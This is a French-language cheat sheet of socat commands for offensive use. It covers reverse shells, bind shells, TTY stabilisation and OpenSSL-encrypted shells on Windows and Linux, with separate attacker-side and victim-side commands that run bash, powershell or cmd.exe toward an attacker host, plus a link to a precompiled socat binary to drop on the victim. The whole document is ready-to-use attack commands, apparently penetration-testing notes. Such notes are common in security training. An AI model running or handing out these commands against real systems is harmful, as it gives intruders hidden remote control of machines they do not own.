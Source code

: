 # Reverse shells

[Attaquant]
```
socat TCP-L:<port> -
```

Windows
```
socat TCP:<IP>:<PORT> EXEC:powershell.exe,pipes
```

Linux

```
socat TCP:<IP>:<PORT> EXEC:"bash -li"
```
<br>
<br>

# Bind Shells

Windows
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Linux
```
socat TCP-L:<PORT> EXEC:"bash -li"
```

[Attaquant]
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
<br>
<br>

### Stabiliser des shells avec socat

[Attaquant] target -> Linux
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

[Victime] <a href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true">Socat précompilé</a>
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

<br>
<br>

### Shell encryptés !

Génération du certificat
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
```
cat shell.key shell.crt > shell.pem
```
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

[Victime]
```
socat OPENSSL:<IP>:<PORT>,verify=0 EXEC:/bin/bash
```
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

[Attaquant]
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
